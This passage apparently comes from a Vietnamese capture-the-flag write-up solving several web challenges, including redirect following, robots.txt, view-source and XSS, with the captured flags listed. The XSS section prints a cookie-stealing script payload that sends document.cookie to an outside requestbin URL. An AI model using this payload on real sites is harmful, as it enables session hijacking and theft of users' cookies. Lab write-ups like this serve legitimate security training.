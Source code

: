 Giờ mình sẽ chuyển 1 request qua tab `repeater` để quan sát và chỉnh sửa request. 

Sau khi chuyển qua và send request thì thấy được
![image](https://user-images.githubusercontent.com/54855855/140091834-a0706df6-b14c-4852-9688-26ceb5ce55da.png)

Trang web nó vẫn đang 302 (redirect) tiếp. Mình cứ ấn `Follow redirection` tới khi nào có flag thì thôi :)

Cuối cùng khi `id=6` thì sẽ có flag

### Flag
`Flag{Y0u_c4ptur3_m3_xD!!!}`

## Challenge I am not a robot
Bài này tên bài có liên quan đến robot nên mình đoán luôn là có thể flag ở `robots.txt`.
![image](https://user-images.githubusercontent.com/54855855/140092817-7b48e27b-c1d3-449a-8143-2df64f0454fa.png)

Thử thì có thấy Allow có 1 path chuyển tới flag => truy cập nó và có flag
![image](https://user-images.githubusercontent.com/54855855/140092706-b1d0f229-62a5-4f0c-9c49-47731179d966.png)

Ở bài này các bạn có thể sử dụng `Dirsearch` để scan ra cái `robots.txt` nhé.

### Flag
`Flag{N0_B0T_@ll0w}`

## Challenge Sause
Ở bài này chỉ cần view-source lên thì có thể thấy flag
![image](https://user-images.githubusercontent.com/54855855/140093164-0c3be5c8-8fa4-43f1-a957-b850caa914c4.png)

### Flag
`Flag{Web_Sause_Delicious}`

<h1>Web Exploitation</h1>
5 bài đầu này vì server của các challenge đang sập nên mình chỉ nhớ lại và viết payload thôi nhé, mong các bạn thông cảm.

## Challenge XSS
ở bài này author cho tên bài là xss luôn nên mình vô thử thẳng `<script>alert(1);</script>` và web hiện ra thông báo popup `1` => trigger xss thành công

Vậy bây giờ chỉ cần lấy cookie và có thể đó là flag.

### Payload
Tạo 1 requestbin ở trang này [Requestbin](https://requestbin.net/)

Sau đó send payload sau: `<script>document.location='https://requestbin.net/r/bkctjaky?cc='+document.cookie</script>`

Chờ khoảng vài phút thì có flag về.
